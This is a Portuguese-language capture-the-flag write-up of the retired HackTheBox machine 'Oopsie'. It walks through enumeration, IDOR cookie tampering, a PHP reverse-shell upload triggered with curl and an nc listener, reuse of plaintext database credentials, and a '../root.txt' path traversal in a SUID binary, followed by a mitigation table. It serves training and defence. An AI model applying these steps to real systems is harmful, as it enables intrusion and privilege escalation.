







# Oopsie — HackTheBox

**Plataforma:** HackTheBox
**Máquina:** Oopsie
**Dificuldade:** Easy
**SO:** Linux
**Data:** 06/06/2026
**Tags:** #enum #foothold #privesc #webattack #burpsuite #proxy
**Status:** Retired ✅

## TL;DR

O acesso inicial explora um **IDOR (Insecure Direct Object Reference)** em um painel administrativo: a autorização é controlada apenas por cookies em texto claro (`user` e `role`), sem qualquer validação server-side. Trocando o `id` na URL e os valores dos cookies, foi possível assumir a identidade do usuário admin e liberar a funcionalidade de **upload de arquivos**, que não valida a extensão enviada — permitindo o upload de uma webshell PHP e execução remota de comandos (RCE) como `www-data`.

Com credenciais expostas em um arquivo de configuração (`db.php`), foi possível migrar para o usuário `robert`. A escalada de privilégios final explora um binário **SUID** (`bugtracker`, pertencente ao grupo `bugtracker`) vulnerável a **path traversal**: ele concatena a entrada do usuário diretamente em uma chamada `cat` sem sanitização, permitindo a leitura de qualquer arquivo do sistema como root — inclusive `root.txt`.

**Cadeia de ataque:** IDOR/Cookie tampering → Upload irrestrito de arquivo → RCE (www-data) → Credenciais em arquivo de configuração → Path traversal em binário SUID → root

---

## 1. Reconhecimento

### 1.1 Enumeração com Nmap

```
┌──(gabriel㉿gabriel)-[~/Documents/htb]
└─$ nmap -sC -sV 10.129.235.248
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-06 08:28 -0300
Nmap scan report for 10.129.235.248
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.37 seconds
```

Apenas duas portas abertas: **SSH (22)** e **HTTP (80)** rodando Apache 2.4.29 sobre Ubuntu. Sem versão vulnerável conhecida à primeira vista — o caminho de ataque provavelmente está na aplicação web.

### 1.2 Enumeração de diretórios com Gobuster

```
┌──(gabriel㉿gabriel)-[~/Documents/htb]
└─$ gobuster dir -u http://10.129.235.248 -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.235.248
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 279]
.htaccess            (Status: 403) [Size: 279]
.htpasswd            (Status: 403) [Size: 279]
css                  (Status: 301) [Size: 314] [--> http://10.129.235.248/css/]
fonts                (Status: 301) [Size: 316] [--> http://10.129.235.248/fonts/]
images               (Status: 301) [Size: 317] [--> http://10.129.235.248/images/]
index.php            (Status: 200) [Size: 10932]
js                   (Status: 301) [Size: 313] [--> http://10.129.235.248/js/]
server-status        (Status: 403) [Size: 279]
themes               (Status: 301) [Size: 317] [--> http://10.129.235.248/themes/]
uploads              (Status: 301) [Size: 318] [--> http://10.129.235.248/uploads/]
```

O diretório `/uploads` chama atenção como possível vetor de exploração futuro. Por enquanto, nada mais relevante — todas as páginas do site principal são estáticas e não levam a lugar algum:


---

## 2. Foothold (acesso inicial)

### 2.1 Descoberta do painel administrativo

Interceptando o tráfego com o Burp Suite, encontrei uma URL não listada no gobuster (referenciada em algum recurso estático da página):

**`http://10.129.235.248/cdn-cgi/login/`**




O login exige credenciais, mas oferece uma opção de acesso como **visitante (guest)**:



Entrando como guest, chego à seção `/uploads`, que exige permissão de super admin:



### 2.2 IDOR — escalando de guest para admin via cookies

Inspecionando os cookies da sessão, percebo que a autorização é controlada inteiramente no client-side, **em texto claro**, sem qualquer token assinado ou validação server-side:

| Cookie  | Valor (guest) |
|---------|---------------|
| `user`  | `2233`        |
| `role`  | `guest`       |

Na seção "Account" do painel, a página exibe meus dados (ID, nome, e-mail) e a URL revela o parâmetro que os controla:



```
http://10.129.235.248/cdn-cgi/login/admin.php?content=accounts&id=2
```

Trocando o `id` na URL de `2` para `1`, consigo visualizar os dados do usuário **admin** — um IDOR clássico, sem controle de acesso por objeto:

```
Access ID: 34322
Name: admin
```

Com o `Access ID` do admin em mãos, atualizo os cookies da sessão (`user=34322`, `role=admin`) e a seção de upload é liberada:



### 2.3 Upload irrestrito de arquivo → RCE

O endpoint de upload não valida a extensão do arquivo enviado. Usei a webshell PHP padrão do Kali Linux (`/usr/share/webshells/php-reverse-shell.php`), apenas ajustando IP e porta para o meu listener, e subi o arquivo para o servidor.

A pasta `/uploads` bloqueia listagem direta pelo navegador:



Isso não impede a execução do arquivo enviado. Com um listener `netcat` aberto em outro terminal, disparo um `curl` para o caminho do arquivo:

```bash
# terminal 1 — listener
nc -lvnp 1234

# terminal 2 — dispara a webshell
curl http://10.129.235.248/uploads/oopsie.php
```



Reverse shell recebida como `www-data`.

---

## 3. Escalada de privilégios

### 3.1 www-data → robert (credenciais em arquivo de configuração)

Analisando `/var/www/html/cdn-cgi/login`, encontro arquivos de configuração com credenciais em texto claro:

```
$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

$ cat index.php
<?php
if(isset($_GET["guest"]))
{
        $cookie_name = "user";
        $cookie_value = "2233";
        setcookie($cookie_name, $cookie_value, time() + (86400 * 30), "/");
        setcookie('role','guest', time() + (86400 * 30), "/");
        header('Location: /cdn-cgi/login/admin.php');
}
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
{
        $cookie_name = "user";
        $cookie_value = "34322";
        setcookie($cookie_name, $cookie_value, time() + (86400 * 30), "/");
        setcookie('role','admin', time() + (86400 * 30), "/");
        header('Location: /cdn-cgi/login/admin.php');
}
```

`index.php` confirma o que já havíamos deduzido pela inspeção dos cookies: os valores `user`/`role` são simplesmente aceitos sem qualquer verificação de integridade. `db.php` expõe a senha do usuário `robert`, reaproveitada como senha de sistema:

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@oopsie:/var/www/html/cdn-cgi/login$ su - robert
Password: M3g4C0rpUs3r!

robert@oopsie:~$
```

### 3.2 robert → root (path traversal em binário SUID)

Verificando os grupos existentes na máquina, um deles chama atenção — `robert` é membro dele:

```
bugtracker:x:1001:robert
```

Busco arquivos pertencentes a esse grupo:

```
robert@oopsie:~$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```

```
robert@oopsie:~$ file /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```

Binário com bit **SUID** ativo, pertencente ao root, e **not stripped** — os símbolos e nomes de função originais estão preservados, o que facilita bastante a análise.

Listando as funções exportadas:

```
robert@oopsie:~$ nm /usr/bin/bugtracker | grep -i ' T '
000000000000096a T concat
0000000000000b24 T _fini
0000000000000770 T _init
0000000000000b20 T __libc_csu_fini
0000000000000ab0 T __libc_csu_init
00000000000009da T main
0000000000000860 T _start
```

E as strings embutidas no binário:

```
robert@oopsie:~$ strings /usr/bin/bugtracker
...
setuid
strcpy
system
geteuid
...
------------------
: EV Bug Tracker :
------------------
Provide Bug ID:
---------------
cat /root/reports/
...
```

O binário monta e executa (via `system()`) o comando `cat /root/reports/<entrada do usuário>`, sem qualquer sanitização do valor informado. Como o binário roda com SUID root, isso é um **path traversal** direto para leitura arbitrária de arquivos:

```
robert@oopsie:/usr/bin$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

Binary package hint: ev-engine-lib
Version: 3.3.3-1
Reproduce:
When loading library in firmware it seems to be crashed
...
```

Injetando `../` no lugar do ID, escapo do diretório `/root/reports/` e leio arquivos arbitrários como root — incluindo a flag final:

```
robert@oopsie:/usr/bin$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../root.txt
---------------

af13b0be...eacf
```

---

## 4. Causa raiz e mitigação

| # | Vulnerabilidade | Causa raiz | Mitigação |
|---|---|---|---|
| 1 | IDOR / bypass de autorização | Autorização decidida inteiramente por cookies em texto claro, sem validação server-side do papel do usuário | Validar permissões no backend a cada requisição sensível; usar sessões assinadas/opacas (ex: JWT assinado ou session ID server-side) em vez de cookies com valores previsíveis |
| 2 | Upload irrestrito de arquivo | Nenhuma validação de extensão/MIME type no endpoint de upload | Whitelist de extensões permitidas, renomear arquivos enviados, servir uploads fora do webroot ou sem permissão de execução |
| 3 | Credenciais em texto claro no código-fonte | Senha de banco de dados hardcoded em `db.php`, acessível caso um atacante consiga LFI/RCE | Usar variáveis de ambiente ou um gerenciador de segredos; nunca versionar credenciais no código |
| 4 | Path traversal em binário SUID | Concatenação direta da entrada do usuário em uma chamada `system("cat ...")`, sem sanitização | Nunca chamar `system()`/`exec()` com entrada do usuário; usar syscalls diretas (`open`/`read`) com validação de caminho, ou abandonar o bit SUID em favor de `sudo` com regras restritas |

---

## 5. Lições aprendidas

- Cookies sem assinatura/criptografia nunca devem carregar decisões de autorização — client-side é sempre território hostil.
- Binários **not stripped** com SUID ativo são um alvo de altíssimo valor: `nm`/`strings` entregam quase todo o comportamento sem precisar de engenharia reversa pesada.
- Vale sempre revisar arquivos de configuração da aplicação web após obter RCE — reaproveitamento de senha (`robert` no site = `robert` no sistema) é extremamente comum em ambientes reais.
